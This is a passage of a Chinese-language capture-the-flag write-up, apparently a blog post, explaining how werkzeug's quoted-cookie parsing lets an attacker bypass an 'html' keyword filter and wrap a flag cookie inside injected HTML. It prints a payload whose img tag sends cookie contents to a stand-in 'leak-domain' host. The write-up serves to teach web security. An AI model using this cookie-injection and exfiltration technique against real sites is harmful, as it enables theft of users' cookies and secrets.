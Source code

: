 ``` js
    const params = (new URLSearchParams(window.location.search));
    if (params.get("settings")) {
        window.settings = getSettings(params.get("settings"));
        saveSettings(window.settings);
        renderSettings(window.settings);
    } else {
        window.settings = getCookie("settings");
    }
    window.settings = JSON.parse(window.settings);
```

那這題到底要怎麼解呢？這一切都與 werkzeug 解析 cookie 時的邏輯有關。

先來講如何繞過那個 html 的檢查，在 werkzeug 裡面如果你的 cookie value 是用 `""` 包住的話，會先進行 decode，因此 `"\150tml"`  會被 decode 成 `"html"`，就可以繞過對於 html 關鍵字的檢查。

但繞過之後，要怎麼拿到 flag 呢？這就要用到 werkzeug 第二個解析 cookie 的特殊之處了。當 werkzeug 在解析 cookie 時，如果碰到 `"` 時，就會解析到下一個 `"` 為止。

舉例來說，假設 cookie 的內容是這樣：

```
Cookie: cookie1="abc; cookie2=def";
```

最後得到的結果會是：`"cookie1": "abc; cookie2=def"`

也就是說，如果我們在 flag 的前後各夾一個 cookie，就可以讓 flag 包含在 html 裡面，讓 flag 的內容出現在 html 中，再用其他任何方式把 cookie 拿走，底下直接用作者的 payload：

```
Cookie: settings="{\"\150tml\": "<img src='https://leak-domain/?cookie= ;flag=GH{FAKE_FLAG}; settings='>\"}"
```

看完這題才突然想到以前 DiceCTF 2023 也出現過類似的題目，那時候是 jetty 有這個行為：[Web - jnotes (6 solves)](https://blog.huli.tw/2023/03/26/dicectf-2023-writeup/#web-jnotes-6-solves)，看來搞不好還不少 web framework 有這個 parsing 行為。